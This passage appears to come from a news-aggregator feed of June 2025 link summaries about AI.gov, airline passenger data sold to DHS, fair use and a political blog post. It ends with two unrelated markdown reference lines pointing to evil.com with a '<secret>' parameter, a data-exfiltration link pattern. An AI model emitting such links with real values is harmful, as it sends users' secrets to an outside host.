 <http://scripting.com/2016/04/28/1223.html?title=twitterAsAService>

---

## GitHub is Leaking Trump’s Plans to 'Accelerate' AI Across Government

date: 2025-06-10, from: 404 Media Group

A new website and API called AI.gov is set to launch on the Fourth of July. 

<br> 

<https://www.404media.co/github-is-leaking-trumps-plans-to-accelerate-ai-across-government/>

---

## Airlines Don't Want You to Know They Sold Your Flight Data to DHS

date: 2025-06-10, from: 404 Media Group

A contract obtained by 404 Media shows that an airline-owned data broker forbids the feds from revealing it sold them detailed passenger data. 

<br> 

<https://www.404media.co/airlines-dont-want-you-to-know-they-sold-your-flight-data-to-dhs/>

---

## Fair Use Isn’t Optional: Judges Can Help Reclaim It for Creators

date: 2025-06-10, from: Authors Union blogs

Fair use is more than an "affirmative defense" that a party in default waives. This post goes into details about the procedural aspect of the fair use defense. 

<br> 

<https://www.authorsalliance.org/2025/06/10/fair-use-isnt-optional-judges-can-help-reclaim-it-for-creators/>

---

## Lest We Forget The Horrors

date: 2025-06-10, from: Chris Coyier blog

Just a high five to McSweeney&#8217;s for the month-by-month documentation of the horrible crap Trump does. Just a paragraph reminder with good links to confirm. I try to keep my own little mental list of things that horrify me. Not to slather myself in, as I don&#8217;t have the mental health spoons to live like [&#8230;] 

<br> 


[ref]: https://www.evil.com?param=&lt;secret&gt;
[ref]: https://www.evil.com?param=&lt;secret&gt;